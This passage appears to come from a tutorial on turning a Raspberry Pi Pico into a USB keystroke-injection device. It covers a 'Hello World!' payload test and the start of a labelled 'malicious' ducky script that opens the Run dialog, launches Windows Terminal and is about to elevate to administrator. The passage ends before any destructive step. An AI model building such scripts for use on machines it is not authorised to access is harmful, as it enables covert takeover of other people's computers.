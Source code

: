<figure><img src="../../../.gitbook/assets/Screenshot 2023-10-02 113641.png" alt=""><figcaption></figcaption></figure>

And save it as `payload.dd` in pico drive.

Now disconnect and reconnect the pico to test if it is working or not. If it is working it will open notepad and type `Hello World!` in it.

10. Now you can write your own ducky script inside the `payload.dd` file and run it on any system.

**Note: -** After saving the ducky script in payload.dd it will execute it immediately on connected system. So keep that in mind before writing the ducky script.

`Hello World!` **Demo**:

{% embed url="https://vimeo.com/870229586?share=copy" %}

**Example malicious ducky script:**

{% embed url="https://vimeo.com/870230398?share=copy" %}

Script: -

`REM TO CLOSE OPENED FILE EXPLORER WE USE ALT F4`

`ALT F4`&#x20;

`DELAY 500`

`GUI r`

`DELAY 500`

`STRING wt`

`REM TO OPEN AS ADMINISTRATOR USING CONTROL SHIFT ENTER`&#x20;
